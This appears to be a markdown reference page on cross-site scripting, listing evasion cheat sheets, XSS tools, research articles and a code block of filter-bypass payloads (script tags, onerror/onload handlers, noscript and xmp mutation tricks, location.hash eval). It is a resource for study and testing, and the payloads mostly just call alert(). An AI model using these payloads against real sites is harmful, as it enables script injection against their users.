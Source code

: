 # xss sets
[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)  
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss)  
[XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)  
[xssed](http://xssed.com)  

# Tools
[Beef](https://github.com/beefproject/beef)  
[XSStrike](https://github.com/s0md3v/XSStrike)  
[xssor2](https://github.com/evilcos/xssor2)  
[xssfork](https://github.com/bsmali4/xssfork)  
[XSS-Filter-Evasion-Cheat-Sheet-CN](https://github.com/l3m0n/XSS-Filter-Evasion-Cheat-Sheet-CN)  

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)  

# articles
[Bypass XSS Protection with xmp, noscript, noframes.. etc](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)  
[A WOrmable XSS on HackMD](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)  
[Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)[pocs](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
[Security Safe HTML](http://www.gwtproject.org/doc/latest/DevGuideSecuritySafeHtml.html)  
[Reducing XSS by way of Automatic Context-Aware Escaping in Template Systems](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)  
[Fighting XSS with Isolated Scripts](https://sirdarkcat.blogspot.com/2017/01/fighting-xss-with-isolated-scripts.html)  
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)  
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)  

[About Google](https://nosec.org/home/detail/2449.html)  
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  

```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
